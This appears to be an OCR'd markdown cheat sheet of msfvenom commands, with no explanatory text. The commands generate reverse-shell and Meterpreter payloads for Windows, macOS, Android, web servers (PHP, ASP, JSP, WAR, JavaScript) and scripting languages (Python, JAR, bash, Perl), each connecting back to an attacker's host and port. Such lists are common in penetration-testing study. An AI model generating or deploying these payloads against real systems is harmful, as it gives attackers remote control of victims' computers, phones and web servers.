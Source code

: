 #### windows

msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f exe > shell.exe

#### mac

msfvenom -p osx/x86/shell_reverse_tcp lhost=your-ip  lport=your-port -f macho > shell.macho

#### android

msfvenom -p android/meterpreter/shell_reverse_tcp lhost=your-ip  lport=your-port -f apk > shell.apk


### web payloads

#### php

msfvenom -p php/meterpreter_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

#### asp

msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f asp > shell.asp

#### jsp

msfvenom -p java/jsp_shell_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.jsp

#### war

msfvenom -p java/jsp_shell_reverse_tcp lhost=your-ip lport=your-port -f war > shell.war

#### javascript

msfvenom -p windows/shell_reverse_tcp lhost=your-ip lport=your-port -f js_le -e generic/none

msfvenom -p linux/x86/shell_reverse_tcp lhost=your-ip lport=your-port CMD=/bin/bash -f js_le -e generic/none


### scripting payloads

#### python

msfvenom -p cmd/unix/reverse_python lhost=your-ip lport=your-port -f raw > shell.py

#### jar

msfvenom -p java/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f raw -o shell.jar

#### bash

msfvenom -p cmd/unix/reverse_bash lhost=your-ip lport=your-port -f raw > shell.sh

#### perl

msfvenom -p cmd/unix/reverse_perl lhost=your-ip lport=your-port -f raw > shell.pl
